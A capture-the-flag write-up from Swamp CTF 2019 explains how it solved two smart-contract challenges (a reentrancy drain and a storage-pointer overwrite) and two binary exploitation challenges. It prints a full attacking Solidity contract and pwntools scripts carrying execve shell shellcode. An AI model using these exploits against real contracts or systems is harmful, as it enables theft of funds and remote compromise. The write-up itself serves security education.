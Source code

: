 ```yaml
---
layout: post
title: Swamp CTF 2019
---
```


## <a name="refundable_purchase"></a>Challenge: Refundable Purchase - Smart Contracts

> I've created a contract to make buying items online safer! (for the buyer at least) The funds stay in escrow in the contract until the buyer has received the item, in which they report they've received it (people are always honest, right!?). If they never receive the item, they can call refund to return their spent ether. Find a way to drain this contract of all pending refunds.

The contract has a vulnerable function *refund()*. It updates the owed amount after the ether is sent:
<!--more-->
```java
    /** Refunds sent Ether*/
    function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
    }
```

Also, the money transfer *msg.sender.call.value(amount(""))*, can be exploited when the receiver is another contract with a fallback function. In this fallback function, we call refund() again, draining the contract's balance. 

Here's the attacker's contract source. Deploy it with 0.5 Eth, then call the exploit function with the vulnerable contract as the argument:

```javascript
pragma solidity ^0.4.24;

import "browser/reto3.sol";

contract AttackRefundablePurchase {
    function () external payable {
        if (msg.sender.balance>0) { //Keep asking for refund until the balance is 0
            RefundablePurchase c = RefundablePurchase(msg.sender);
            c.refund();
        }
    }
    
    constructor() public payable {
    }
    
    function exploit(address v) public payable {
        v.call.value(0.5 ether)(); //Send 0.5Eth to enter the refund map.
        
        RefundablePurchase c = RefundablePurchase(v);
        c.refund(); // Request the refund
    }   
}
```

***

## <a name="loan_bank"></a>Challenge: Loan Bank - Smart Contracts

> I've created an autonomous loan bank to handle payment tracking for loans to your friends. The contract works on good faith (or many threats) that your borrower will pay back with interest. However, there's a short period of time where loans are in limbo waiting to be claimed. Find a way to drain the contract of all its Ether. HINT: Call the init() function first

The contract sits between a loaner and the debtor. The loaner sends Eth to the contract using the makeLoan function, and the debtor can request it. 

The vulnerability sits in the makeLoan function. It seems that it's creating a Loan structure and adding it to the loans map, but somehow it's overwriting the contracts storage. Actually, it overwrites the owner contract's variable with the amount.

```javascript
    /** Function called to loan eth to an address */
    function makeLoan(address receiver, uint256 amount) public payable {
        require(msg.value == tokenToWei(amount));
        require(msg.value > 0);

        // This overwrites the first variables of the contract (id, owner,...)
        Loan storage l;
        l.id = bytes32(_id);
        l.receiver = receiver;
        l.amount = amount;

        loans[msg.sender] = l;
    }

    /** Call to receive loaned eth */
    function receiveLoan(address loaner) public {
        require(!loans[loaner].received);
        loans[loaner].received = true;
        msg.sender.transfer(tokenToWei(loans[loaner].amount));
    }

    /** Change a loan amount. Only callable by the contract owner */
    function changeDebt(address loaner, uint256 amount) public onlyOwner {
        loans[loaner].amount = amount;
    }

    function tokenToWei(uint256 amount) internal returns (uint256) {
        return amount / CONVERSION_RATE;
    }
```

The exploit for draining the contract is simple:
1. Make a loan with the correct amount, so that *amount == int(our_address)*, and set the transaction value to *tokenToWei(amount)*.
2. Modify the debt amount, such as: *tokenToWei(amount) == contract's balance*
3. Call receiveLoan and drain the contract's balance

***

## <a name="wetware"></a>Challenge: WetWare - Pwn

We have a binary (NX disabled) that asks for a password. It uses the first 8 bytes of the password to xor-drecrypt some bytes in memory, then jumps into that code. That code is, before xoring, *d26f656d6f26d78c*

When we arrive at that address, rsi points to our buffer. The first 8 bytes will be the xor key, but the rest is pure shellcode. 

```bash
$ rasm2 -b64 "add rsi,8 ; push rsi; ret"
4883c60856c3
```

```python
from pwn import *

io = connect("chal1.swampctf.com", 1337)
#Xor key so that the decryption produces the code above. 
payload = "\x9a\xec\xa3\x65\x39\xe5\xd7\x8c"
#execve("/bin//sh"): http://shell-storm.org/shellcode/files/shellcode-905.php
payload+= "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

io.sendline(payload)
io.interactive()
```

***

## <a name="wetware_hardened"></a>Challenge: WetWare Hardened - Pwn

This time NX is enabled, we cannot use the stack directly. The code segment is still writable, but the xor key is just 6 bytes.

When we get to the decrypted code, rsi points to our input and rdi to a region in the code. We will copy those bytes, and then jump to them. We can do it in just 6 bytes:

```asm
mov cl, 64
rep movsd
jmp 0x0040021d      ; 8 bytes after rdi
```

```bash
rasm2 -o 0x004001cd -b64 "mov cl,64; rep movsd; jmp 0x0040021d"
b140f3a5eb4a
```

```python
from pwn import *

io = connect("chal1.swampctf.com", 1338)
#Xor key so that the decryption produces the code above.
payload = "\x64\x2e\x9b\xcb\x85\x7b\x01\x01"
#execve("/bin//sh"): http://shell-storm.org/shellcode/files/shellcode-905.php
payload+= "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

io.sendline(payload)
io.interactive()
```